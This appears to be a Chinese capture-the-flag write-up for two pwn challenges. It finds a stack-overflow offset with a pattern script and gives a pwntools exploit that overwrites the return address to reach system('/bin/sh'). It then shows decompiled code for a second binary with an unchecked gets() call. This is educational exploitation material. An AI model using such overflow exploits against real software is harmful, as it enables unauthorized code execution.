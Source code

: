    其实就是污点字段追踪：生成一个特定字符串，看溢出点位置 这个 地方 他用到了  [IDA的远程调试](https://blog.csdn.net/liujiayu2/article/details/51791297/)

   通过   python patternLocOffset.py -c -l 700 -f test   生成一个 700个长度的字符串 输入进去

   查看  ebp 的位置 覆盖的数据 为 0x41366441

   通过  python patternLocOffset.py  -l 700  -s 41366441 来计算便宜位置

2. 题目上是通过 IDA alt + A 搜索字符串。。。

   ```
   .text:08048638                 jnz     short locret_8048646
   .text:0804863A                 mov     dword ptr [esp], offset command ; "/bin/sh"
   .text:08048641                 call    _system
   ```

3. 编写pwntools

```
from pwn import *
pwn1 = process('./pwn1')
target = 0x804863a
pwn1.sendline('A' * (112) + p32(target))
pwn1.interactive()

```



### PWN2



IDA:

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  int v4; // [sp+1Ch][bp-64h]@1

  setvbuf(stdout, 0, 2, 0);
  setvbuf(stdin, 0, 1, 0);
  puts("This time, no system() and NO SHELLCODE!!!");
  puts("What do you plan to do?");
  gets(&v4);
  return 0;
}
```

```
.text:08048E83                 mov     dword ptr [esp], offset aWhatDoYouPlanT ; "What do you plan to do?"
.text:08048E8A                 call    puts
.text:08048E8F                 lea     eax, [esp+1Ch]
.text:08048E93                 mov     [esp], eax
.text:08048E96                 call    gets
.text:08048E9B                 mov     eax, 0
.text:08048EA0                 leave
.text:08048EA1                 retn
```
